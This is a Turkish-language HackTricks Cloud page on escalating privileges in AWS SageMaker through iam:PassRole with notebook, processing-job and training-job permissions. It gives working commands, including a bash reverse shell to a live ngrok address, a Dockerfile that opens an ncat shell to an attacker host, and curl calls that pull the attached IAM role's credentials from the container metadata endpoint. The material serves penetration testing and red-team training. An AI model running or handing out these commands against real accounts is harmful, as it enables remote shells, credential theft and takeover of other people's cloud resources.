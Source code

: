 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Bağlı olduğu IAM Rolü ile bir not defteri oluşturmaya başlayın:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Yanıt, yeni oluşturulan defter örneğinin ARN'sini içerecek `NotebookInstanceArn` alanını içermelidir. Ardından, defter örneğine erişmek için hazır olduğunda kullanabileceğimiz bir URL oluşturmak için `create-presigned-notebook-instance-url` API'sini kullanabiliriz:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Tarayıcı ile URL'ye gidin ve sağ üstteki \`Open JupyterLab\` butonuna tıklayın, ardından “Launcher” sekmesine kaydırın ve “Other” bölümünde “Terminal” butonuna tıklayın.

Artık IAM Rolünün metadata kimlik bilgilerine erişmek mümkündür.

**Olası Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Eğer üzerinde Jupyter **notebook'ları zaten çalışıyorsa** ve bunları `sagemaker:ListNotebookInstances` ile listeleyebiliyorsanız (veya başka bir şekilde keşfedebiliyorsanız). Onlar için **bir URL oluşturabilir, erişebilir ve önceki teknikte belirtildiği gibi kimlik bilgilerini çalabilirsiniz**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Olası Etki:** Sagemaker hizmet rolüne yükselme.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Bu izinlere sahip bir saldırgan, **sagemaker'ın bir işleme işi yürütmesini** sağlayabilir ve buna bağlı bir sagemaker rolü ekleyebilir. Saldırgan, **AWS yönetimli ECS hesap örneğinde** çalıştırılacak konteynerin tanımını belirtebilir ve **bağlı IAM rolünün kimlik bilgilerini çalabilir**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, bir eğitim işi oluşturabilecek, **üzerinde rastgele bir konteyner çalıştırarak** ona **bağlı bir rol** ile. Bu nedenle, saldırgan rolün kimlik bilgilerini çalabilecektir.

{% hint style="warning" %}
Bu senaryo, önceki senaryodan daha zor istismar edilebilir çünkü rev shell veya kimlik bilgilerini doğrudan saldırgana gönderecek bir Docker imajı oluşturmanız gerekiyor (eğitim işinin yapılandırmasında bir başlangıç komutu belirtemezsiniz).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, **bir hiperparametre eğitim işi** oluşturma yeteneğine (potansiyel olarak) sahip olacaktır, **üzerinde rastgele bir konteyner çalıştırarak** ve ona **bir rol ekleyerek**.\
_Zaman eksikliğinden dolayı bunu istismar etmedim, ancak önceki istismarlarla benzer görünüyor, istismar detaylarıyla bir PR göndermekten çekinmeyin._

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
